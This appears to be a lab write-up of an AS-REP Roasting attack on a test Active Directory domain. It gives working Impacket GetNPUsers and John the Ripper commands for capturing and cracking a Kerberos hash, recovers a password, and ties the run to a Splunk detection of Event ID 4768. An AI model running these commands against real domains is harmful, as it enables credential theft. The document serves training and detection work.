



# AS-REP Roasting Attack — Kali Linux

## 1. Overview

This document walks through the attacker-side execution of an **AS-REP Roasting** attack (MITRE ATT&CK **T1558.004**) against the domain **sadeg.com**, performed from a **Kali Linux** machine using **Impacket's `GetNPUsers`** for enumeration/ticket capture and **John the Ripper** for offline cracking.

**Environment:**
- Attacker: Kali Linux (`root@kali`, `/home/user`)
- Target Domain: `sadeg.com`
- Domain Controller IP: `192.168.30.145`
- Vulnerable account found: `svcbot@SADEG.COM`

---

## 2. Step 1 — Enumerate Accounts & Request AS-REP Hashes

The attacker uses a list of candidate usernames (`users.txt`) and queries the Domain Controller for any accounts that have **Kerberos pre-authentication disabled**. No valid domain credentials are required (`-no-pass`).

```bash
impacket-GetNPUsers sadeg.com/ -dc-ip 192.168.30.145 -no-pass -usersfile /home/user/users.txt -outputfile /home/user/asrep_hashes.txt
```

**Command breakdown:**
| Flag | Purpose |
|---|---|
| `sadeg.com/` | Target domain |
| `-dc-ip 192.168.30.145` | IP address of the Domain Controller |
| `-no-pass` | No password/credentials supplied — anonymous enumeration |
| `-usersfile /home/user/users.txt` | List of candidate usernames to test |
| `-outputfile /home/user/asrep_hashes.txt` | Saves any retrieved AS-REP hash(es) to file |



This confirms the account **`svcbot`** has **"Do not require Kerberos preauthentication"** enabled, making it vulnerable to AS-REP Roasting. This action is what generates **Event ID 4768** with `Pre_Authentication_Type=0` on the Domain Controller — the exact event the Splunk alert is designed to detect.

---

## 3. Step 2 — Verify the Captured Hash


```bash
cat /home/user/asrep_hashes.txt
```



The hash is in **`krb5asrep`** format (etype `23` = RC4-HMAC), which is directly crackable by John the Ripper or Hashcat.

---

## 4. Step 3 — Crack the Hash Offline with John the Ripper

The attacker performs an offline dictionary attack using a local wordlist, specifying the correct hash format for AS-REP hashes:

```bash
john /home/user/asrep_hashes.txt --wordlist=/home/user/password.txt --format=krb5asrep
```



**Result:** The password hash for `svcbot@SADEG.COM` is cracked almost instantly, recovering the plaintext password:

```
Password: Bot2026!
```

---

## 5. Attack Summary

| Step | Action | Tool | Outcome |
|---|---|---|---|
| 1 | Enumerate AD accounts without pre-auth | `impacket-GetNPUsers` | Identified `svcbot` as vulnerable; captured AS-REP hash |
| 2 | Verify captured hash | `cat` | Confirmed valid `krb5asrep` hash format |
| 3 | Crack hash offline | `john` (`--format=krb5asrep`) | Recovered plaintext password: `Bot2026!` |

**Impact:** The attacker now holds a valid, working credential (`svcbot` / `Bot2026!`) for a domain account, obtained entirely through an unauthenticated network request and offline cracking — with no failed logon attempts and no account lockouts triggered against the Domain Controller.

**MITRE ATT&CK Mapping:** T1558.004 — Steal or Forge Kerberos Tickets: AS-REP Roasting
